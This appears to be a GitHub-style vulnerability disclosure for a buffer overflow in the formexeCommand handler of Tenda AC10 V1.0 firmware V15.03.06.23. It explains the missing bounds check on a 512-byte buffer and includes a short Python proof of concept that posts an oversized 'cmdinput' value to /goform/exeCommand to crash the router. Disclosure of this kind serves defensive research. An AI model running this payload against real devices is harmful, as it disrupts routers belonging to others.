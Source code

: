 
### Overview

*   Equipment website：[https://www.tenda.com.cn](https://www.tenda.com.cn/product/AX1806.html)
*   Firmware download website：[AC10V1.0升级软件](https://www.tenda.com.cn/material/show/102734)

### Affected version

V1.0 V15.03.06.23

### Vulnerability details
TenDa   AC10 V1.0 V15.03.06.23 firmware has a buffer overflow vulnerability in the formexeCommand function
A buffer overflow vulnerability exists in TenDa AC10 V1.0 V15.03.06.23 firmware feature. This function copies the contents of the string to cmd_buf without performing a boundary check. Therefore, if the length is longer than 512 bytes, it can cause a buffer overflow, overwriting the memory area behind the array, which can cause the program to crash and trigger this security vulnerability.
![image](https://github.com/user-attachments/assets/dda9f1d2-f132-4bab-9068-84854f087cf4)


### poc
```
import requests
ip = "192.168.142.100"
url = "http://" + ip + "/goform/exeCommand"
payload = b"Raining"*3000

data = {"cmdinput": payload}
response = requests.post(url, data=data)
print(response.text)
```
![image](https://github.com/user-attachments/assets/a43542ae-85a0-424e-afee-762c8e7e8519)




